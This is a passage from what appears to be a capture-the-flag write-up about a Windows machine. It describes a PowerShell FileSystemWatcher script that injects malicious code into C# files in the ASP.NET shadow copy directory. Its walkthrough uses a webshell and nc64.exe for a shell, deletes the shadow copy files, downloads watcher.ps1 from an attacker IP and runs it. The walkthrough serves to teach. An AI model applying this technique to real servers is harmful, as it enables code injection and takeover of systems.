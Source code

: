 

It uses a `FileSystemWatcher`
[object](https://powershell.one/tricks/filesystem/filesystemwatcher) to
register a file change event handler looking for C# source files in the
Shadow File Copy directory. It finds `Execute() {` and replaces it with
`Execute() {` and then the malicious code. It also does a similar find
and replace to bring in an additional import. It does uses a global
variable (`$global:trig`) to make sure to only change the first one it
finds. Not adding this will cause the changes to take place again and
again, and eventually break the compilation.

### Exploit

I'll start with both an SSH shell and a webshell, and use the webshell
and `nc64.exe` to get a shell that way (which I'll just refer to as the
webshell shell). From the webshell shell, I'll delete all the shadow
copy folders:



    PS C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Temporary ASP.NET Files\root\cfb457c9\c7fa5157> del *
    del *



This can hang, and sometimes it completed without deleting everything (I
just ran it again until it finished).

Next I'll upload the `watcher.ps1` file to that directory:



    PS C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Temporary ASP.NET Files\root\cfb457c9\c7fa5157> iwr http://10.10.14.15/watcher.ps1 -outfile watcher.ps1

    PS C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Temporary ASP.NET Files\root\cfb457c9\c7fa5157> ls

        Directory: C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Temporary ASP.NET Files\root\cfb457c9\c7fa5157


    Mode                LastWriteTime         Length Name
    ----                -------------         ------ ----
    -a----        5/30/2021  12:43 PM           1421 watcher.ps1



Now I'll run it:



    PS C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Temporary ASP.NET Files\root\cfb457c9\c7fa5157> .\watcher.ps1
    .\watcher.ps1

    Id     Name            PSJobTypeName   State         HasMoreData     Location             Command                  
    --     ----            -------------   -----         -----------     --------             -------                  
    1      FileChanged                     NotStarted    False                                 ...   
